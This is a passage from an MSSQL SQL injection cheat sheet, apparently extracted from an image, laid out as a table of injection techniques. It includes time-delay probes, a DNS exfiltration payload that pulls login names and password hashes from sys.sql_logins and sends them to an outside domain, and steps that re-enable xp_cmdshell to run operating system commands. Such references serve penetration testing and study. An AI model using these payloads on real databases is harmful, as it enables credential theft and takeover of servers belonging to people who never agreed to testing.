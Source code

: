 <br>
SELECT CAST(1 as char)

</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT ‘A’ + ‘B’ – returns AB</td>
</tr>
<tr>
<td>If Statement</td>
<td>
<span>IF (1=1) SELECT 1 ELSE SELECT 2 — returns 1</span>
</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END — returns 1</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT char(65)+char(66) — returns AB</td>
</tr>
<tr>
<td>Time Delay</td>
<td>&nbsp;WAITFOR DELAY ’0:0:5′ — pause for 5 seconds</td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.&nbsp; Messy but necessary.

<br>
– Also check out theDNS tunnel feature of

<a href="http://sqlninja.sourceforge.net/sqlninja-howto.html">sqlninja</a>
</td>
</tr>
<tr>
<td>Command Execution</td>
<td>EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:

<br>
EXEC sp_configure ‘show advanced options’, 1; — priv

<br>
RECONFIGURE; — priv

<br>
EXEC sp_configure ‘xp_cmdshell’, 1; — priv
